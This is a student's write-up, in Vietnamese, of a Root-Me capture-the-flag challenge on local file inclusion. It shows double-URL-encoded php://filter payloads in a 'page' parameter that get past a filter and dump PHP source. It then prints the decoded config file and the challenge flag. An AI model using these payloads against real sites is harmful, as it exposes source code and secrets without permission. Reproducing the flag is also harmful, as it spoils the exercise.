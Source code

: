 # Challenge: Local File Inclusion - Double encoding
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding

- Thử thách cho chúng ta nhập một 3 trang thông tin, 3 trang này được thay đổi bỡi tham số GET request là `page`.
<p align="center"><img src="./images/2.1.png"></p>

- Thử với `page=index.php` --> Attack detected.

- Có thể server đã lọc và phát hiện, ta thử dùng Double Encoding chuỗi `index.php` --> `index%252ephp`
<p align="center"><img src="./images/2.2.png"></p>

- Ta thấy có thông báo lỗi, dựa vào thông báo lỗi này ta biết được server sẽ `include [page]+".inc.php"`

- Ta sử dụng php://filter để có thể xem mã nguồn của file `php://filter/convert.base64-encode/resource=index.php`
https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb

- Ta thử xem mã nguồn của trang cv (cv.inc.php) --> `php://filter/convert.base64-encode/resource=cv` để khi chèn thêm .inc.php ta sẽ được `php://filter/convert.base64-encode/resource=cv.inc.php`
--> `php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`
<p align="center"><img src="./images/2.4.png"></p>

- Tương tự ta xem những file khác (cv, home, contact), tuy nhiên không có username, password hay flag nào cả, tuy nhiên ở đây ta biết thêm có 1 file là "conf.inc.php", thông qua <?php include("conf.inc.php"); ?>
- Do đó ta sẽ thử với
>?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf

- Sau khi decode-base64 ta được
```
<?php
  $conf = [
    "flag"        => "Th1sIsTh3Fl4g!",
    "home"        => '<h2>Welcome</h2>
    <div>Welcome on my personal website !</div>',
    "cv"          => [
      "gender"      => true,
      "birth"       => 441759600,
      "jobs"        => [
        [
          "title"     => "Coffee developer @Megaupload",
          "date"      => "01/2010"
        ],
        [
          "title"     => "Bed tester @YourMom's",
          "date"      => "03/2011"
        ],
        [
          "title"     => "Beer drinker @NearestBar",
          "date"      => "10/2014"
        ]
      ]
    ],
    "contact"       => [
      "firstname"     => "John",
      "lastname"      => "Smith",
      "phone"         => "01 33 71 00 01",
      "mail"          => "john.smith@thegame.com"
    ],
    "global_style"  => '<style media="screen">
      body{
        background: rgb(231, 231, 231);
        font-family: Tahoma,Verdana,Segoe,sans-serif;
        font-size: 14px;
      }
      div#main{
        padding: 20px 10px;
      }
      nav{
        border: 1px solid rgb(101, 101, 101);
        font-size: 0;
      }
      nav a{
        font-size: 14px;
        padding: 5px 10px;
        box-sizing: border-box;
        display: inline-block;
        text-decoration: none;
        color: #555;
      }
      nav a.active{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      nav a:hover{
        color: #fff;
        background: rgb(119, 138, 144);
      }
      h2{
        margin-top:0;
      }
      </style>'
  ];

```

## Kết quả flag là `Th1sIsTh3Fl4g!`
